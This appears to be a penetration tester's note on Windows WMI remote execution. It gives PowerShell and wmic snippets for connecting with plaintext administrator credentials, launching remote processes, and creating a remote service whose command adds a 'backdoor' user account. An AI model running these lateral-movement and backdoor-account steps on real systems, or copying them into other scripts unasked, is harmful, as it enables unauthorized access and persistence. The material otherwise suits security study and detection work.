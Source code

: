 [[WMI]]
# Connecting to WMI on remote machine
### Protocols support
- **DCOM**: RPC over IP. Uses port 135/TCP and port 49152-65535/TCP.
- **Wsman**: Uses WinRM. uses port 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).
```powershell
# Create the PSCredential object to store the credntial
$username = "Administrator";
$password = "Password123";
$securepassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = [System.Management.Automation.PSCredential]::new($username,$securepassword);

# Configure Protocol to use
$opt = New-CimSessionOption -Protocol DCOM;

# Connect to the remote computer 
$session = New-CimSession -ComputerName <SERVER> -Credential $credential -SessionOption $opt -ErrorAction Stop;
```

# Remote Process Creation
- Required Group Membership : Administrators
### Powershell
```powershell
# Create a string storing the command to be executed
$command = "powershell.exe -Command Set-Content -Path C:\Temp\text.txt -Value Hello,World!";

Invoke-CimMethod -CimSession $session -Classname Win32_Process -MethodName create -Arguments @{
CommandLine = $command;
} 
```
### CMD
```powershell
# For legacy system
wmic.exe /user:administrator /password:password123 /node:<server> process call create "cmd.exe /c calc.exe"
```
# Remote Service Creation
- Required Group Membership: Administrator
### Powershell
```powershell
# Create service
Invoke-CimMethod -CimSession $session -ClassName Win32_Service -MethodName create -Arguments @{
Name = "MyService";
DisplayName = "MyService";
PathName = "net user backdoor password /add";
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual";
}

# Create a service object
$service = Get-CimInstance -CimSession $session -ClassName Win32_Service -filter "Name LIKE 'MyService'"

# Start the service
Invoke-CimMethod -InputObject $service -MethodName StartService
# Stop the service
Invoke-CimMethod -InputObject $service -MethodName StopService
# Delete Service
Invoke-CimMethod -InputObject $service -MethodName Delete

```